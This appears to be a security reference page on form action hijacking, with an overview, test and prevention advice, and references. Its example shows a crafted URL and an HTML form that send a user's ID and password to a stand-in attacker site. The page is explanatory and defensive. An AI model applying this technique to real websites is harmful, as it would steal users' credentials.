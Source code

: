 ```yaml
---

layout: col-sidebar
title: Form action hijacking
author: Robert Gilbert (amroot)
contributors: 
permalink: /attacks/Form_action_hijacking
tags: attack, Form action hijacking
auto-migrated: 1

---
```


## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a paramter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use a whitelist of allowed URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

`https://vulnerablehost.com/?url=https://attackersite.com`

Source:

```html
<form name="form1" id="form1" method="post" action="https://attackersite.com">
    <input type="text" name="id" value="user name">
    <input type="password" name="pass" value="password">
    <input type="submit" name="submit" value="Submit">
</form>
```

## References

- [Common Weakness Enumeration - CWE-20: Improper InputValidation](https://cwe.mitre.org/data/definitions/20.html)
- [PortSwigger: Form action hijacking(reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
- [PortSwigger: Form action hijacking(stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)
